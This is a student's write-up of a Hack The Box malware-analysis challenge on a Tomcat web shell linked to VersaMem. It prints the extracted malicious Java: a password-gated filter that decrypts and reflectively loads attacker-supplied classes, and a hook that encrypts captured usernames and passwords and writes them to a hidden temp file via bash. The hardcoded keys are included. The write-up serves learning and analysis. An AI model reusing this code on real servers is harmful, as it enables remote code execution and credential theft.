## Write Up
---
This was my first reverse engineering project and I think it went pretty well. I did the [ElectroBreeze2](https://app.hackthebox.com/sherlocks/ElectricBreeze-2) capture the flag from hack the box. This was pretty challenging as I am very new to the cybersecurity space and I have only watched people like [John Hammond](https://www.youtube.com/@_JohnHammond) do this before. I always thought that this would be so cool to do as a career and I haven't changed my mind. This was a fun way to spend a couple of hours in between my busy school life.

The malware sample was a Apache tomcat web shell exploit. I found out through after action research that a web shell is a type of shell like interface (like PowerShell or bash) that facilitates remote access to a web server, commonly used for cyber attacks. I also found out that I was using a real malware sample. MITRE ATT&CK Framework has a listing for this piece of malware I examined. 

In my analysis, I have started to develop my reverse engineering skills. I was constantly checking the Java documentation trying to figure out what each function did and slowly but surely I figured out the whole challenge. This wasn't an easy challenge as I didn't know what I was looking for in everything and there was multiple times in which I was stuck. Without digging too much, I didn't see any official write ups about this challenge so I was on my own with nothing but me and all the AIs. The only formal training I have had that comes close to what I did today was that I had participated in a CyberPatriot team for 4 years. I had so much fun though and I can't wait to do another challenge like this.

I have posted my artifacts from this for anyone's reference below but if you don't want to see them before you do the challenge don't scroll past here.

## Extracted Artifacts
---
Actual Tomcat Web Shell
```java
String pwd = $1.getParameter("\\p\\\\");
String accessPwd = \\"5ea23db511e1ac4a806e002def3b74a1\\";
HttpServletRequest httpRequest = (HttpServletRequest) $1;
HttpServletResponse httpResponse = (HttpServletResponse) $2;
String authStr = httpRequest.getHeader(\\"Versa-Auth\\");
try {
    if (accessPwd.equals(pwd) || accessPwd.equals(authStr)) {
        SecretKeySpec secretKey = new SecretKeySpec(new byte[]{56, 50, 97, 100, 52, 50, 99, 50, 102, 100, 101, 56, 55, 52, 99, 53, 54, 101, 101, 50, 49, 52, 48, 55, 101, 57, 48, 57, 48, 52, 97, 97}, \\"AES\\");
        Cipher cipher = Cipher.getInstance(\\"AES/ECB/PKCS5Padding\\");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            Class clazz = null;
            String clzn = $1.getParameter(\\"clzn\\");
            if (clzn == null) {
                clzn = \\"VersaMem\\";
            } else {
                byte[] encryptedData = Base64.getDecoder().decode(clzn.getBytes());
                byte[] clznBytes = cipher.doFinal(encryptedData);
                clzn = new String(clznBytes);
            }
            try {
                clazz = Class.forName(clzn, false, classLoader);
            } catch (ClassNotFoundException e) {
                String clzd = $1.getParameter(\\"clzd\\");
                if (clzd != null) {
                    byte[] encryptedData = Base64.getDecoder().decode(clzd.getBytes());
                    byte[] clazzBytes = cipher.doFinal(encryptedData);
                    java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod(new String(new byte[]{100, 101, 102, 105, 110, 101, 67, 108, 97, 115, 115}), new Class[]{byte[].class, int.class, int.class});
                    defineClassMethod.setAccessible(true);
                    clazz = (Class) defineClassMethod.invoke(classLoader, new Object[]{clazzBytes, new Integer(0), new Integer(clazzBytes.length)});
                    httpResponse.getWriter().write(\\"R2qBFRx0KAZceVi+MWP6FGGs8MMoJRV5M3KY/GBiOn8=\\");
                    httpResponse.getWriter().flush();
                    httpResponse.getWriter().close();
                } else {
                    httpResponse.getWriter().write(\\"Q6ajR83GUmjv9aiPylz2pg==\\");
                    httpResponse.getWriter().flush();
                    httpResponse.getWriter().close();
                }
            }
            if (clazz != null) {
                Constructor constructor = clazz.getConstructor(new Class[]{Object.class, Object.class});
                constructor.newInstance(new Object[]{httpRequest, httpResponse});
            }
            return null;
        }
    } catch (Throwable e) {
        e.printStackTrace(); //remove......
    }
    this.internalDoFilter($1, $2);
}";
```

Password Extractor
```java
$_ = $proceed($$); String planText = username + \\\\" , \\"+password;
byte[] dataToEncrypt = planText.getBytes(StandardCharsets.UTF_8);
SecretKeySpec secretKey = new SecretKeySpec(\\"82ad42c2fde874c56ee21407e90904aa\\".getBytes(StandardCharsets.UTF_8), \\"AES\\");
Cipher cipher = Cipher.getInstance(\\"AES/ECB/PKCS5Padding\\");
cipher.init(Cipher.ENCRYPT_MODE, secretKey);
byte[] encryptData = cipher.doFinal(dataToEncrypt);
String logData = Base64.getEncoder().encodeToString(encryptData);
String logFile = \\"/tmp/.temp.data\\";
String cmd = \\"grep -q \\" + logData + \\" \\" + logFile + \\" || echo \\" + logData + \\" >> \\" + logFile;
String[] command = {
        \\"/bin/bash\\", \\"-c\\", cmd
};
ProcessBuilder processBuilder = new ProcessBuilder(command);
Process process = processBuilder.start();
process.waitFor();
```

Not Sure What this Artifact was?
```
{ "com/versa/vnms/ui/services/impl/VersaAuthenticationServiceImpl", "com.versa.vnms.ui.services.impl.VersaAuthenticationServiceImpl", "authenticate", "(Lorg/springframework/security/core/Authentication;)Lorg/springframework/security/core/Authentication;" }
```

## Code (Some Stolen From AI)
---
Decrypt AES Without IV (Initialization Vector)
```java
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;

public class DecryptECB {
    public static void main(String[] args) throws Exception {
        // The hardcoded key from the malware
        byte[] keyBytes = new byte[]{
            56, 50, 97, 100, 52, 50, 99, 50, 102, 100, 101, 56, 55, 52, 
            99, 53, 54, 101, 101, 50, 49, 52, 48, 55, 101, 57, 48, 57, 
            48, 52, 97, 97
        };
        
        // Create the AES key
        SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
        
        // Initialize cipher in ECB mode
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);
        
        // Example: decrypt one of the Base64 strings from the code
        String encrypted = "R2qBFRx0KAZceVi+MWP6FGGs8MMoJRV5M3KY/GBiOn8=";
        
        // Decode from Base64
        byte[] encryptedData = Base64.getDecoder().decode(encrypted);
        
        // Decrypt
        byte[] decryptedBytes = cipher.doFinal(encryptedData);
        
        // Convert to string
        String decrypted = new String(decryptedBytes);
        System.out.println("Decrypted: " + decrypted);
    }
}
```

CyberChef Recipe in JSON (Link is down is in [[#Documentation Reference]])
```json
[
  { "op": "From Base64",
    "args": ["A-Za-z0-9+/=", true, false] }
]
```

## Documentation Reference
---
[Hack the Box: Electro Breeze 2 Capture the Flag Challenge](https://app.hackthebox.com/sherlocks/ElectricBreeze-2)

[Claude Chat](https://claude.ai/share/7d86aab6-e038-4c36-9608-0e403b733142)

[Gemini Chat](https://g.co/gemini/share/bfd1a8d1ee7b)

[ChatGPT Chat](https://chatgpt.com/share/68ddfbc6-6324-800e-9024-70e0824ac3a5)

[My CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false))

https://docs.oracle.com/javase/8/docs/api/javax/crypto/spec/SecretKeySpec.html

https://docs.oracle.com/javase/8/docs/api/java/lang/instrument/Instrumentation.html#retransformClasses-java.lang.Class...-

https://docs.oracle.com/javase/8/docs/api/java/lang/instrument/Instrumentation.html#addTransformer-java.lang.instrument.ClassFileTransformer-

https://docs.oracle.com/javase/9/docs/api/com/sun/tools/attach/VirtualMachine.html#loadAgent-java.lang.String-

https://docs.oracle.com/javase/8/docs/api/java/util/regex/Pattern.html#compile-java.lang.String-

https://attack.mitre.org/software/S1154/

https://en.wikipedia.org/wiki/Web_shell